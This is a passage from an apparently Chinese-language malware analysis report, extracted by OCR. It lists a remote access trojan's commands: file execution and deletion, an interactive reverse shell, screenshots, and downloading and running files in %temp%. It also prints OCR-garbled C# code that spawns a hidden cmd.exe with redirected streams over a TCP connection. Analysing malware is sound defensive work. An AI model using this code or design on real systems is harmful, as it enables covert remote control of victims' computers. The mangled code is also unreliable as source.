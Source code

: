 该指令含义为执行受害主机中的指定文件，执行成功返回"asdf",否则返回异常信息。  

#### "Delete"  

该指令含义为删除受害主机中的指定文件,执行成功返回"asdf",否则返回异常信息。  

#### "Rev"  

该指令用于执行服务端下发命令,并更改OutputHandler事件委派中的返回状体为开启,此时服务端与客户端建立起交互式Shell。  

#### "RevEnd"  

该指令用于关闭交互式Shell,更改OutputHandler事件委派中的返回状体为关闭,此时服务端与客户端关闭交互式Shell。  

#### "ScreenS"  

该指令用于获取受害主机当前桌面屏幕截屏。  

#### "UplExe"  

该指令有两个操作：操作一：从服务端下发文件并保存至受害主机%temp%路径下的指定文件名称并立即执行。操作二：获取当前进程的ID并将该数据保存在%temp%\ip1.txt文件中。  

#### "Alive"  

无操作，使客户端进入等待状态。  

# 02  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/f88b04b77ac228a4f620108a53c80de2a6ea63201ab366b188ffba2c2b9d08ff.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/fe868ebee569877a2a5b7fd9004e186cb5af0e35874d03f0fecd9aa9695d4dd2.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/8bf322115c6a774036e0ab2035c64909217f83e3d6c4b882aaa8a1cec5bd8fd5.jpg)  

bool flag;   
Program.mutex = new Mutex(true, "fdghsdfgjhh", out flag); if (!flag)   
return;   
char [] array = new char[]   
int[] pop = new int[] { 2, 0, 2, 4 };   
string sdaf;   
Process p;   
for :: Program. ppp = new Process O ;   
Program. ppp. StartInfo.FileName = "cmd. exe";   
Program. ppp. StartInfo. CreateNoWindow = true;   
Program. ppp. StartInfo.UseShellExecute = false;   
Program. ppp. StartInfo. RedirectStandardOutput = true;   
Program. ppp. StartInfo. RedirectStandardInput = true;   
Program. ppp. StartInfo. RedirectStandardError = true;   
Program. ppp. OutputDataReceived += Program. CmdOutputDataHandler;   
Program. ppp. Start O ;   
Program. ppp. BeginOutputReadLine O ;   
Program. wt = new BinaryWriter(Program. tctt. GetStreamO);   
Program.rt = new BinaryReader (Program. tctt. GetStream O);   
= new Process O ;  
